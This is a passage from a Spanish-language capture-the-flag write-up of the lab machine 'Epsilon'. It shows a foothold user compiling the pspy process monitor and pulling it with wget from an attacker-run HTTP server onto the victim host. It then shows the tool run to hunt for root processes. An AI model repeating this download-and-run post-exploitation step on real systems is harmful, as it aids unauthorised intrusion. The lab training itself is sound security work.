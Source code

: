 No vemos a tareas cron por aquí.

Vamos a utilizar una herramienta llamada [pspy](https://github.com/DominicBreuker/pspy) que nos ayudará a encontrar procesos que se estén ejecutando por parte de root en el sistema, vamos a clonar el repositorio y compilarlo:

```
sudo /usr/local/go/bin/go build -ldflags "-s -w" .

go: downloading github.com/spf13/cobra v1.4.0
go: downloading golang.org/x/sys v0.0.0-20220520151302-bc2c85ada10a
```
Luego, abrimos un servidor http con python y desde la máquina víctima descargarmos el archivo:

```
tom@epsilon:/tmp$ wget http://10.10.14.17/pspy
--2023-03-05 04:48:17--  http://10.10.14.17/pspy
Connecting to 10.10.14.17:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3252224 (3.1M) [application/octet-stream]
Saving to: ‘pspy’

pspy                100%[===================>]   3.10M  1.33MB/s    in 2.3s    

2023-03-05 04:48:19 (1.33 MB/s) - ‘pspy’ saved [3252224/3252224]

tom@epsilon:/tmp$ ls
pspy
```
Le damos permisos se ejecución y lo ejecutamos:
```
tom@epsilon:/tmp$ chmod +x pspy
```
```
tom@epsilon:/tmp$ ./pspy
./pspy: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by ./pspy)
./pspy: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./pspy)
```

Sin embargo, no nos ha funcionado, vamos a solucionarlo buscando los binarios en el github de la herramienta:

![](/imagenes/Epsilon/epsilon_14.png)
